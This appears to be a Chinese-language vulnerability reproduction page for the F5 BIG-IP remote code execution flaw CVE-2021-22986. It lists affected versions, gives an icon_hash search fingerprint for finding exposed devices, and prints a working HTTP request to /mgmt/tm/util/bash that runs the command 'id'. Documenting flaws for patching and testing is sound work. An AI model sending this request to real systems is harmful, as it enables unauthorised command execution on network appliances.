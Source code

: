 # F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。



近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

<a-checkbox checked>F5 BIG-IP 16.x: 16.1.0.3</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 15.x: 15.1.0.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 14.x: 14.1.2.6</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 13.x: 13.1.3.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 12.x: 12.1.5.2</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 11.x: 11.6.5.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

访问登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222032.png)



发送请求包

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222086.png)

成功执行命令 id

